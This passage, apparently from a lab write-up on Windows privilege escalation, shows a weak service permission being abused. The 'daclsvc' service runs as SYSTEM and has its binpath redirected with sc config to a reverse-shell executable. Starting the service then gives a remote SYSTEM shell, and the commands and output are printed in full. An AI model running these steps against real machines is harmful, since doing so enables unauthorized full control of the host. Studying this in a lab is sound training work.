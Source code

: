 `-q`: Omit Banner

`-v`: Verbose (includes Windows Vista Integrity Level)

`user`: is literally the account name on which we would like to check privileges

reference:

https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

So far we have `SERVICE_CHANGE_CONFIG` permission, we are able to modify service "daclsvc".

Let's investigate further `dacslsvc`:

```
C:\Users\user>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

```

**NOTE** that service is running as SYSTEM.

Let's modify `binpath`:

```
C:\Users\user>sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```

Let's start our forged service:

```
C:\Users\user>net start daclsvc
```

We should now receive a SYSTEM shell:

```bash
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49800
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```
